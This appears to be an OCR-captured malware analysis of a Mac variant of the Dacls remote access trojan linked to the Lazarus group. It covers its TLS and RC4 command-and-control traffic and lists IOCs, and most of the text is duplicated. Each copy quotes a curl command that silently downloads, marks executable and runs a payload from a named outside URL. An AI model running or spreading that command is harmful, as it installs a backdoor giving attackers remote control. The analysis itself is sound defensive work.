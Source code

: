     Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227
 Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227
